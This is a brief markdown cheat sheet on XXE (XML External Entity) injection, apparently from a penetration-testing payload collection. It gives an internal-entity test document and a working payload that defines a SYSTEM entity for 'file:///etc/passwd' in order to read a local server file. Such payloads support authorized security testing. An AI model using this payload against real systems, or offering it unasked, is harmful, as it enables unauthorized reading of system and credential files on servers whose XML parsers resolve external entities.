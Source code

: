 # XXE Injection (XML External Entity)

## Testing for XXE
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example "Cappucino"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```
## Retrieve local server file
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<root>&test;</root>
```
